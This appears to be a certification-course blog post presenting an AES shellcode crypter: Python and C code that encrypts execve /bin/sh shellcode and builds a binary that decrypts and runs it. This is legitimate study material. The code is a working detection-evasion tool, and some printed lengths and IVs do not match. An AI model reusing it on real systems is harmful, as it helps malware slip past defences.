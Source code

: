 ```yaml
---
title:  "[SLAE 7] AES Shellcode crypter"
---
```


![Logo](/assets/images/tux-root.png)

This is the last assignment of SLAE: **_building a shellcode crypter_**. Thanks Vivek and the team at SecurityTube for the course!

* I  chose to do the encryption using _`python-crypto`_ library. I used _AES-128_, in _CBC mode_ with _PKCS5 padding_
* I did the decryption of the shellcode using the easily integrable [PolarSSL AES](https://tls.mbed.org/) source code

The encryption password is provided on the command line, then a Python script hard-codes it in the decrypter and builds it. For exemplify I've used the _`execve-stack`_ shellcode: 
```bash
$ ./encrypt_payload_polar.py 
Usage:
    ./encrypt_payload_polar.py [passphrase]
     
$ ./encrypt_payload_polar.py s3cr37
[+] Shellcode (len 32):
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50"
"\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
[+] Key:
"\xe8\xca\xa8\xd3\x69\x22\xbe\x22\xf3\x2e\x08\x30\x11\xc0\xef\xbc"
[+] IV:
"\x07\xb0\x24\x02\x5b\x00\x68\xfc\x34\x30\x5e\x42\x64\x24\x39\x99"
[+] Encrypted shellcode (len 134): 
"\x0d\x18\x30\xe5\xca\x14\x13\x3d\x5e\xb2\xfa\xeb\x60\x1d\x51\x9b"
"\x24\x74\x64\xd7\x17\x9f\x32\xdf\xbf\x36\xf4\x91\x9c\x03\x09\xfb"
[+] Compiling:
 -> gcc -Wall -z execstack -o encrypted_shellcode temp.c PolarSSL/aes.c PolarSSL/md5.c
 -> strip --strip-all encrypted_shellcode
 -> rm temp.c
[*] Done.
$ ./encrypted_shellcode
#
```

The encrypter/decrypter uses the password to generate a 128 bits key, by hashing the password.
The PolarSSL is extremely easy to integrate and use, compared with the OpenSSL, and the generated binary is also much smaller as only AES and MD5 functions are linked in. Here's a snippet of the decrypter code that does the main bits: 
```c
    [..]
    unsigned char key[16];
    unsigned char iv[16] = 
"\xb4\x9d\x64\x10\xa8\x3b\x1b\xa9\x29\xc4\x4b\x09\xfe\x2c\xd3\x56";
 
    unsigned char input[] = 
"\x24\x06\xa6\xe4\x5d\xc4\xc0\x0e\x36\x7d\x05\x5a\xfe\xc1\x07\x0c"
"\x31\x48\xef\x06\x0f\x09\x84\x98\x03\x3e\x04\x1e\x08\x6d\xb2\xe3";
    size_t input_len = 32;
    unsigned char output[32];
 
    unsigned char passw[] = "s3cr37";
    size_t in_len = 6;
 
    /* Generate a 128 bits key from the password */
    md5_context md5_ctx;
    md5_starts(&md5_ctx);
    md5_update(&md5_ctx, passw, in_len);
    md5_finish(&md5_ctx, key);
 
    /* Decrypt the payload */
    aes_context aes;
    aes_setkey_dec(&aes, key, 128);
    aes_crypt_cbc(&aes, AES_DECRYPT, input_len, iv, input, output);
 
    /* Execute decrypted shellcode */
    ((void (*)()) output)();
```

The Python script uses a template of the decrypter and fills in the encrypted shellcode, the lengths, IV and key and then generates the encrypted binary. Below is a snippet of the main function:
```python
def make_binary(password):
    sc_len = len(pad(shellcode))
    print_done("[+] Shellcode (len %d):" % (sc_len))
    print "%s" % (to_hex(shellcode))
 
    # Generate a secret key and random IV
    h = MD5.new()
 
    h.update(password)
    key = h.digest()
    str_key = to_hex(key)
    print_done("[+] Key:")
    print "%s" % str_key
 
    # Generate random IV
    iv = os.urandom(BS)
    str_iv = to_hex(iv) #"\"%s\"" % "".join(["\\x%02x" % ord(c) for c in iv])
    print_done("[+] IV:")
    print "%s" % str_iv
 
    # Create a cipher object using the random secret
    cipher = AES.new(key, AES.MODE_CBC, iv)
 
    enc = cipher.encrypt(pad(shellcode))
    str_enc = to_hex(enc)
    print_done("[+] Encrypted shellcode (len %d):" % (len(str_enc)))
    print "%s" % (str_enc)
 
    outline = open(decrypt_shell).read()
    code = outline % (str_iv, str_enc, sc_len, sc_len, password, len(password))
 
    # Write to temporary source file
    o = open(temp_src, "w")
    o.write(code)
    o.close()
 
    # Compile
    compile_cmd = "gcc -Wall -z execstack -o %s %s PolarSSL/aes.c PolarSSL/md5.c" % \
       (out_file, temp_src)
    print_done("[+] Compiling:") 
    print " -> %s" % compile_cmd
    os.system(compile_cmd)
 
 
    # Strip all symbols
    strip_cmd = "strip --strip-all %s" % (out_file)
    print " -> %s" % (strip_cmd)
    os.system(strip_cmd)
 
    # Delete intermediate files
    clean_cmd = "rm %s" % (temp_src)
    print " -> %s" % (clean_cmd)
    os.system(clean_cmd)
 
    print_ok("\n[*] Done. Run ./%s" % (out_file))
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
